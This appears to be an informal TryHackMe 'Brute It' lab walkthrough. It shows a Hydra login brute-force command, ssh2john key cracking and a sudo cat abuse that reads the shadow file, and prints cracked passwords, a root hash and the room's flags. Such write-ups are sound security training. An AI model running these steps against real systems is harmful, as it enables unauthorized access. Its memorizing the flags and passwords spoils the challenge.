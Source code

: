 ### Brute It ###

export IP=10.10.196.110

found /admin

found a comment in the source code:<!-- Hey john, if you do not remember, the username is admin -->

trying hydra...could write a python script but i don't think there is a need for that because its seems a simple login and not using any kind of protection...

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.196.110 -V http-form-post '/admin:user=^USER^&pass=^PASS^:F=Username or password invalid'

# So after 2 hours (or more at this point idkkkkkkkkkkkkkkkk whats the time...... :/) guess what....

wrote a script and its all for nothinggggggggggg....the url is /admin/ and not /admin...that was the whole mistake................

[80][http-post-form] host: 10.10.149.25   login: admin   password: xavier

# Login brute force flag:
THM{brut3_f0rce_is_e4sy}

found a rsa key...../usr/share/john/ssh2john.py to convert it to forJohn...

found the passphrase:rockinroll

# User.txt:
THM{a_password_is_not_a_barrier}

did sudo -l:

found:

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat

gtfobins:LFILE = "file_to_read"

sudo cat "$LFILE"

chose the shadow file to read since the whole theme is to crack passwords:

found the root hash:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.

Password: football

# Root.txt
THM{pr1v1l3g3_3sc4l4t10n}
